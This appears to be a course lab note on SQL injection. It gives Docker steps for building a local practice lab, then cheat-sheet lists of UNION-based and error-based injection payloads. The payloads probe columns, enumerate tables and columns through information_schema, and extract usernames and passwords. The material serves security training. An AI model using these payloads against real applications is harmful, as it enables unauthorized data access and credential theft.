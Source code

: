 # SQL Injection

## Lab setup:

`sudo apt update`

`sudo apt upgrade`

`sudo apt install docker.io`

`sudo apt install docker-compose`

**RESTART YOUR VM**

Copy the labs to a directory in your system, then open a terminal to that directory

`tar -xf peh-web-labs.tar.gz`

`cd labs`

`sudo docker-compose up`

(Keep reading! There is one more thing to do after the lab is built!)

The first time it runs, it will need to download some things, it may take a while depending on your connection. Next time you run it though, it will be much faster.

Once you see the databses are 'ready for connections' the containers should be ready to go.

![](https://cdn.fs.teachablecdn.com/ADNupMnWyR7kCWRvm76Laz/https://cdn.filestackcontent.com/rnRf7tsRG2F9tOIVpKEL)

The final step is to set some permissions for the webserver, this is needed for the file upload labs and the capstone challenge.

`./set-permissions.sh`

Browse to `http://localhost`

The first time you load the lab the database will need to be initialized, just follow the instructions in the red box by clicking the link, then coming back to the homepage.

Enjoy your labs!

SQL Injection UNION

```sql
#injection 0x01
1' or 1=1#
1' or 1=1-- -

1' union select null#
1' union select null,null#
1' union select null,null,null#
1' union select null(int),1,null#

#if it show result
1' union select null,null,version()#
1' union select null,null,table_name from information_schema.tables#
1' union select null,null,column_name from information_schema.columns#

1' union select null,null,password from injection0x01#
```

SQL Injection Error Based

```sql
' OR '1' = '1' #
' ORDER BY 7 # (untuk mencari kolom yg dipakai database)
' UNION SELECT 1,2,3,4,5,6,7 #
' UNION SELECT 1,database(),3,4,user(),6,7 #
' UNION SELECT 1,2,3,4,5,6,group_concat(table_name) from information_schema.tables where table_schema = database() #
' UNION SELECT 1,2,3,4,5,6,group_concat(column_name) from information_schema.columns where table_schema = database() #
' UNION SELECT 1,2,3,4,5,6,group_concat(username,0x3a,password) from users #
```

